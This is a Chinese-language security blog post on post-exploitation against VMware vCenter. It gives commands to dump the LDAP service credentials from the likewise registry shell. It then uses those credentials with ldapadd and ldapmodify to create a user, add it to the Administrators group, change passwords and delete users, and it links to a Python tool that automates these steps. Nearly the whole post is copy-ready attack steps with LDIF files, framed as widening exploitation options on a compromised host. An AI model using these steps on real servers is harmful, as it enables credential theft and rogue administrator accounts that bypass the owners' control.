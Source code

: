 ```yaml
---
layout: post
title: vSphere开发指南5——LDAP
---
```



## 0x00 前言
---

在之前的三篇文章[《vSphere开发指南1——vSphere Automation API》](https://3gstudent.github.io/vSphere%E5%BC%80%E5%8F%91%E6%8C%87%E5%8D%971-vSphere-Automation-API)、[《vSphere开发指南2——vSphere Web Services API》](https://3gstudent.github.io/vSphere%E5%BC%80%E5%8F%91%E6%8C%87%E5%8D%972-vSphere-Web-Services-API)和[《vSphere开发指南3——VMware PowerCLI》](https://3gstudent.github.io/vSphere%E5%BC%80%E5%8F%91%E6%8C%87%E5%8D%973-VMware-PowerCLI)介绍了同虚拟机交互的方法，但有一个利用前提，需要获得管理员用户的口令。

所以本文将要介绍在vCenter上通过LDAP数据库添加管理员用户的方法，扩宽利用思路。

## 0x01 简介
---

本文将要介绍以下内容：

- 利用方法
- 程序实现

## 0x02 利用方法
---

由于介绍这部分的内容相对较少，我从以下资料获得了一些思路：

https://www.guardicore.com/blog/pwning-vmware-vcenter-cve-2020-3952/

https://kb.vmware.com/s/article/2147280

vCenter默认安装了LDAP数据库，用来存储登录用户的信息

LDAP的凭据信息使用[Likewise](https://github.com/vmware/likewise-open)进行存储

### 1.导出LDAP的凭据信息

运行以下命令以访问likewise shell：

```
/opt/likewise/bin/lwregshell
```

切换目录：

```
cd HKEY_THIS_MACHINE\services\vmdir
```

导出信息：

```
list_values
```

执行结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2021-10-2/2-1.png)

以上命令可以合并成一句：

```
/opt/likewise/bin/lwregshell list_values '[HKEY_THIS_MACHINE\services\vmdir]'
```

### 2.连接LDAP数据库

vCenter内置了ldapsearch，可以用来查询LDAP数据库信息

查询命令示例：

```
ldapsearch -x -H ldap://192.168.1.1:389 -D "cn=192.168.1.1,ou=Domain Controllers,dc=aaa,dc=bbb" -w "P@ssWord123@@" -b "dc=aaa,dc=bbb"
```

返回结果为文本格式，为了方便分析数据结构，可以改为使用界面化的工具LDAP Browser，下载地址：

http://www.ldapbrowserwindows.com/

导出数据库信息如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2021-10-2/2-2.png)

### 3.添加用户

经过比较分析，添加用户的操作等价于在`entryDN	 cn=Users,dc=aaa,dc=bbb`下添加了如下信息：

```
# test1, Users, aaa.bbb
dn: CN=test1,CN=Users,DC=aaa,DC=bbb
nTSecurityDescriptor:: AQAHhBQAAAA0AAAAAAAAAFQAAAABBgAAAAAABxUAAACm3bprj60+LPb
 uSMg5729v9AEAAAEGAAAAAAAHFQAAAKbdumuPrT4s9u5IyDnvb28gAgAAAgDAAAUAAAAAEygAMQAH
 IAEGAAAAAAAHFQAAAKbdumuPrT4s9u5IyDnvb2/0AQAAABMoADEAByABBgAAAAAABxUAAACm3bprj
 60+LPbuSMg5729vIAIAAAATKAAxAAcgAQYAAAAAAAcVAAAApt26a4+tPiz27kjIOe9vbwACAAAAEy
 gAEAAAAAEGAAAAAAAHFQAAAKbdumuPrT4s9u5IyDnvb28DAgAAABMYADAAAAABAgAAAAAAByAAAAC
 aAgAA
krbPrincipalKey:: MIGboAMCAQGhAwIBAKIDAgEBpIGJMIGGMEmhRzBFoAMCARKhPgQ8FLCUOdBv
 7cUknLaow8mo+zkUu0LbNaQi7gppLCdhVco2gvzFrhg6O6Ww2I6F0FrZ/EBPnnTuV0ozQdopMDmhN
 zA1oAMCARehLgQsPsHK4inqlDsPbt55cFDjqkiNrbwA9Jw8lfN+3O57RqBPcHiOlTEHU/ZUQoY=
userAccountControl: 0
userPrincipalName: test1@AAA.BBB
sAMAccountName: test1
cn: test1
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
```

添加数据库信息的操作可以使用vCenter内置的ldapadd，命令示例：

```
ldapadd -x -H ldap://192.168.1.1:389 -D "cn=192.168.1.1,ou=Domain Controllers,dc=aaa,dc=bbb" -w "P@ssWord123@@" -f adduser.ldif
```

adduser.ldif的示例内容：

```
dn: CN=test1,CN=Users,DC=aaa,DC=bbb
userPrincipalName: test1@AAA.BBB
sAMAccountName: test1
cn: test1
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
userPassword: P@ssWord123@@
```

**注：**

设置用户密码通过属性userPassword实现，无法通过直接设置属性nTSecurityDescriptor和属性krbPrincipalKey实现

### 4.将用户添加至管理员组

将用户添加至管理员组等价于在`entryDN	cn=Administrators,cn=Builtin,dc=aaa,dc=bbb`下添加属性：`member	CN=test1,CN=Users,DC=aaa,DC=bbb`

修改数据库信息的操作可以使用vCenter内置的ldapmodify，命令示例：

```
ldapmodify -x -H ldap://192.168.1.1:389 -D "cn=192.168.1.1,ou=Domain Controllers,dc=aaa,dc=bbb" -w "P@ssWord123@@" -f addadmin.ldif
```

addadmin.ldif的示例内容：

```
dn: cn=Administrators,cn=Builtin,dc=aaa,dc=bbb
changetype: modify
add: member
member: CN=test1,CN=Users,DC=aaa,DC=bbb
```

### 补充1：修改用户口令

命令示例：

```
ldapmodify -x -H ldap://192.168.1.1:389 -D "cn=192.168.1.1,ou=Domain Controllers,dc=aaa,dc=bbb" -w "P@ssWord123@@" -f changepass.ldif
```

changepass.ldif的示例内容：

```
dn: CN=test1,CN=Users,DC=aaa,DC=bbb
changetype: modify
replace: userPassword
userPassword: P@ssWord123@@45
```

### 补充2：删除用户

命令示例：

```
ldapdelete -x -H ldap://192.168.1.1:389 -D "cn=192.168.1.1,ou=Domain Controllers,dc=aaa,dc=bbb" -w "P@ssWord123@@" "CN=test1,CN=Users,DC=aaa,DC=bbb"
```

至此，管理员用户添加成功，使用新添加的管理员用户可以登录Web管理页面，也能够用来调用vSphere API


## 0x03 程序实现
---

vCenter内置了Python3环境，所以这里使用Python进行实现

需要引用以下三个包：

- os
- sys
- re

vCenter默认支持，能够正常使用


完整代码已上传至github，地址如下：

https://github.com/3gstudent/Homework-of-Python/blob/master/vCenterLDAP_Manage.py

代码支持以下功能：

- adduser，添加一个普通用户
- addadmin，将普通用户设置为管理员用户
- changepass，修改用户口令
- deleteuser，删除一个用户
- getadmin，列出所有管理员用户
- getuser，列出所有用户


## 0x04 小结
---

本文介绍了在vCenter上通过LDAP数据库添加管理员用户的方法，后续可以使用新添加的管理员用户登录Web管理页面或是调用vSphere API。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)










